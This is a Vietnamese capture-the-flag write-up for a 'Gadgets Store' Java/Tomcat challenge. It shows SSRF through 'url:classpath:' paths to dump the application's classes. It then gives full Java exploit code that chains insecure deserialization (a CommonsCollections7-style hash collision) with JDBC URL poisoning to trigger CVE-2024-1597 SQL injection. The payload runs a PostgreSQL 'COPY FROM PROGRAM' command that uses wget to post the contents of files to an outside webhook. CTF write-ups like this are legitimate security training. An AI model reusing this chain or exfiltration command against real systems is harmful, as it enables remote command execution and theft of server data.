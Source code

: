 # Gadgets Store

## Writeups from the teams

- [Team Sacombank](./from_teams/Sacombank_Writeup_Gadgets.pdf)
- [Team UPAY](https://hackmd.io/@taiwhis1/gadgets-banking-25)

## 1. Server-side Request Forgery

Sau khi tạo tài khoản và đăng nhập, ta thấy endpoint `/image?url` khi dùng image preview.
Vì biết ứng dụng chạy trên Tomcat, ta có thể thử giao thức `classpath:` để truy cập các file trong classpath của ứng dụng, nhưng cần thêm tiền tố `url:` để bypass thật sự ([java.net.URL](https://github.com/AdoptOpenJDK/openjdk-jdk11/blob/19fb8f93c59dfd791f62d41f332db9e306bc1422/src/java.base/share/classes/java/net/URL.java#L575)). Có thể thử với `http/https` để xác nhận:

```
url:https://google.com/
```

Quan sát ta sẽ thấy request thành công. Tiếp tục lạm dụng mẹo này để dump các file class rồi decompile -> lấy source code. <br>

```
url:classpath:
```

Một mẹo đơn giản là có thể dùng dùng `../` để xem các thư mục cha:

```
url:classpath:../
url:classpath:../web.xml
url:classpath:../lib (jars & dependencies)
url:classpath:../../META-INF/MANIFEST.MF (found JDK 17)
```

## 2. Insecure Deserialization to SQL Injection

Sau khi ta mua một gadget, nó sẽ hiển thị ở trang profile. Có thể import hoặc export lịch sử mua hàng bằng serialization/deserialization.

Vì ứng dụng dùng `JDK 17`, nếu ta cố gắng đạt RCE bằng các gadget có sẵn trong `ysoserial.jar` thì nhiều khả năng sẽ thất bại. Challenge này không dùng các phiên bản dependencies bị lỗi ngoại trừ `postgresql-42.7.1.jar` với `CVE-2024-1597`, nhưng hiện tại challenge chưa dùng `PreferQueryMode=SIMPLE`.

1. Trong `UserDAO.class`, ta thấy `updateBalance()` thỏa điều kiện để kích hoạt `CVE-2024-1597`.
2. `Database.class` dùng để cấu hình và xử lý JDBC connection, đồng thời cũng implement `Serializable`!
3. `equals()` của `UserDAO.class` gọi `updateBalance()`. Mảnh ghép cuối là inject tham số `PreferQueryMode=SIMPLE` vào JDBC URL thông qua Insecure Deserialization. Bằng cách này ta dùng trực tiếp JDBC URL đã bị "đầu độc" để kích hoạt `CVE-2024-1597` và thực hiện SQL injection.

Ta có thể dùng một phần của chain `CommonsCollections7` + hash collision để trigger `equals()`. ([Analysis blog](https://whoopsunix.com/docs/PPPYSO/gadgets/CommonsCollections/CommonsCollections7/))

```
java.util.Hashtable.readObject
-> java.util.Hashtable.reconstitutionPut
 -> org.apache.commons.collections.map.AbstractMapDecorator.equals
  -> java.util.AbstractMap.equals
```

Exploit code sẽ trông như sau:

```java
public class GeneratePayload {
    public static void main(String[] args) throws MalformedURLException, NoSuchFieldException, IllegalAccessException {
//        System.setProperty("user.timezone", "Asia/Ho_Chi_Minh");
        String webhook = args[0];

        HashMap map = new HashMap();

        Database database = new Database();
        map.put(database, "db");

        Field password = database.getClass().getDeclaredField("password");
        password.setAccessible(true);
        password.set(database, "9a16b4d991f940b7e62f2679&preferQueryMode=simple"); // JDBC URL poisoning + CVE-2024-1597

        UserDAO dao = new UserDAO(database);
        Map payload = new HashMap();
        payload.put("amount", -1.0);
        payload.put("username", String.format("\n;\n COPY flag FROM PROGRAM $$wget %s --post-data=`cat /*.txt`$$;-- ", webhook));

        // hash collision
        Map map1 = new HashMap();
        Map map2 = new HashMap();

        map1.put("yy", dao);
        map1.put("zZ", payload);

        map2.put("zZ", dao);
        map2.put("yy", payload);

        // finalize
        Hashtable ht = new Hashtable();
        ht.put(map1, 1);
        ht.put(map2, 2);
        serializeToBase64(ht);
    }

    private static void serializeToBase64(Object obj) {
        try {
            FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(obj);
            objectOutputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}

```
